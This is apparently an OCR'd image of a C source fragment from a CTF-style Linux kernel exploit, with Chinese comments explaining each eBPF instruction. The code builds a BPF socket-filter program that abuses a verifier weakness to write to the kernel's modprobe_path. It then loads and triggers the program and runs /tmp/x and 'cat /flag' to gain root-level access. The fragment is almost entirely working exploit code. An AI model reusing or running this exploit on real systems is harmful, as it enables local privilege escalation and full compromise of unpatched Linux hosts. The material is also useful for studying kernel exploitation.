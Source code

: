 ```
    struct bpf_insn insns2[]={
        BPF_LD_MAP_FD(BPF_REG_1,expmapfd2), 
        BPF_MOV64_IMM(BPF_REG_0, 0),
        BPF_ALU64_IMM(BPF_MOV,BPF_REG_6,0),       
        BPF_STX_MEM(BPF_DW,BPF_REG_10,BPF_REG_6,-8),// *(r10 - 8) = r6  ; r10作为 framepointer 这里相当于给 fp - 8 上放了个 0
        BPF_MOV64_REG(BPF_REG_7,BPF_REG_10),        // r7 = r10         ; r10是 read-only 的 ， 我们将r10的值（指向对应的栈帧的地址）赋值给 r7
        BPF_ALU64_IMM(BPF_ADD,BPF_REG_7,-8),        // r7 = r7 - 8      ; 通过写 r7 寄存器 ， 定位到我们刚刚放的那个 0 的地址
        BPF_MOV64_REG(BPF_REG_2,BPF_REG_7),         // r2 = r7          ; 将最终构造好的值赋给 r2 ，此时 r2 指向 STACK 上的地址 ， *r2 为 0  
        BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_map_lookup_elem),     
        BPF_JMP_IMM(BPF_JNE,0,0,1),                 // 如果返回为0 ，说明BPF_FUNC_map_lookup_elem failed ， 直接 exit 掉   
        BPF_EXIT_INSN(),                
        BPF_MOV64_REG(BPF_REG_3, BPF_REG_0), 
        BPF_ALU64_IMM(BPF_XOR, BPF_REG_3, 0),
        BPF_ALU64_IMM(BPF_XOR, BPF_REG_0, 0),
        BPF_MOV64_IMM(BPF_REG_2,0),
        BPF_MOV32_IMM(BPF_REG_2,modprobe_path_high32),
        BPF_ALU64_IMM(BPF_LSH, BPF_REG_2, 32),              // 18: (67) r2 <<= 32
        BPF_ALU64_IMM(BPF_OR, BPF_REG_2, modprobe_path_low32),
        // 这一步结束后r2为modprobe_path，标量
        BPF_MOV64_IMM(BPF_REG_1, 0),
        BPF_ALU64_REG(BPF_ADD, BPF_REG_1, BPF_REG_2),
 
        BPF_ALU64_REG(BPF_XOR, BPF_REG_0, BPF_REG_1),
        BPF_ALU64_IMM(BPF_XOR, BPF_REG_0, 0),
        BPF_ALU64_REG(BPF_XOR, BPF_REG_3, BPF_REG_0),
        BPF_MOV64_IMM(BPF_REG_5, 0),
        BPF_ALU64_IMM(BPF_ADD,BPF_REG_5, overwrite),
 
        BPF_STX_MEM(BPF_DW, BPF_REG_3, BPF_REG_5, 0),
        BPF_MOV64_IMM(BPF_REG_0, 0),
        BPF_EXIT_INSN(),
 
    };
 
    progfd = bpf_prog_load(BPF_PROG_TYPE_SOCKET_FILTER, insns2, sizeof(insns2), "GPL", 0);
    puts(bpf_log_buf);
    puts(strerror(errno));
 
    if(progfd < 0){ __exit(strerror(errno));}
    printf("[+] bpf_prog_load success\n");
    if(socketpair(AF_UNIX, SOCK_DGRAM, 0, sockets)){
        __exit(strerror(errno));
    }
    if(setsockopt(sockets[1], SOL_SOCKET, SO_ATTACH_BPF, &progfd, sizeof(progfd)) < 0){
        __exit(strerror(errno));
    }
    writemsg();
 
    uint64_t key;
    uint64_t val[0x400];
    key = 0;
 
    assert(bpf_lookup_elem(expmapfd2,&key,&val)==0);
    printf("[+] lookup key = 0, val = %#lx\n",val[0]);
 
 
    system("/tmp/x");
    system("cat /flag");
```